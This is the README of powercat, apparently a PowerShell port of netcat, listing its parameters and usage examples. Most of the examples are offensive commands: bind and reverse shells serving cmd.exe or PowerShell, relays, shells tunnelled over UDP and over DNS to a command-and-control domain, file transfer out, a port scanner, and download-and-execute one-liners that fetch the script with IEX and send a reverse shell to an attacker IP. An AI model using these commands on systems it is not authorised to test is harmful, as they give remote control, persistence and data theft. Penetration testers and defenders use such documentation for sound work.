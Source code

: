 #powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Output Type: "Host", "Bytes", or "String"            [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -h      Print the help message.                              [Switch]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
        powercat -l -ep 443
        powercat -c 10.1.1.10 -ep 443
    Output to a File:
        powercat -l -p 8000 -o "String" | Out-File C:\outputfile
        [IO.File]::WriteAllBytes("C:\outputfile",(powercat -l -p 8000 -o "Bytes"))
    Send a File:
        powercat -c 10.1.1.10 -p 443 -i "C:\inputfile"
        ([IO.File]::ReadAllBytes('C:\inputfile')) | powercat -c 10.1.1.10 -p 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
    Listener to Client Relay (TCP to DNS)
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
### Other Protocols
    Send a powershell shell out over UDP:
        powercat -c 10.1.1.16 -p 8000 -u -ep
    Send a shell to the dnscat2 server at c2.example.com, sending queries to 10.1.1.1
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com -e cmd
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep